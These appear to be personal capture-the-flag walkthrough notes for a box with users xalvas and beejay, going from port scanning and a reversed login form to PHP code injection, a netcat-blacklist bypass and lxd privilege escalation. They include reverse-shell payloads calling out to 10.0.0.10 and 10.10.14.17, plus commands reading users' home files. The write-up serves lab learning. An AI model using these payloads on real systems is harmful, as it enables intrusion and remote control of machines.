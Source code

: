 
Nmap:
	22, 80

Dirsearch:
	/admin.php ---> login page ----> username field is password and password field                                                          is username ( its reversed)
							 (also the password is there in the page source. Look carefully)

	/uploads -----> nothing yet, keeping in mind.

---

Admin.php Enum ----> Reverse Shell Hurdle:
--
After logging in , we are greeted with a bunch of texts. Read it.

`xalvas` : possible user
`beejay` : possible user

Page is vulnerable to xss and is written in php. 
So we can use `phpinfo()` in the input field.
```
<?php
phpinfo();
?>
```
It shows us the information about our PHP installation and can be used to identify installation and configuration problems.

After this read this, it connects the dots
https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo

We can also opt for a php reverse shell but the connection shuts off immediately .
```
<?php  
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");

<?php system("find /home"); ?> ---> to look whats in home directory

with this command we can find user flag in home , just cat it.
```

With this `<?php system("cat /home/xalvas/intrusions "); ?>` ,
the intrusions file is what blacklists Netcat and prevents us from getting a connection back. 
To get a shell back , we can run nc from RAM disk `/dev/shm`.

How to do that :
1. copy nc to /dev/shm and rename it: 
	`<?php system("cp /bin/nc /dev/shm/test"); ?>`   url encode it before burping
2.  Make it executable:
    `<?php system("chmod 755 /dev/shm/test"); ?>`  url encode
3. Execute the `test` binary:
```
<%3fphp+system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|/dev/shm/test+10.10.14.17+6666+>/tmp/f")%3b+%3f>

its url encoded
```

Damn getting a reverse shell shud not be dis hard man xD jeez!

---

Path to PRIV ESC:
--

`18547936..*` ssh password of `xalvas` taken from the .wav audio files.

Gettint the unintended root path is very easy

User is in the lxd group, search lxd priv esc and follow steps .

Remember to `uname -a` to check the system archetechture its i386 smth and build your alpine container accordingly.

PWNed!
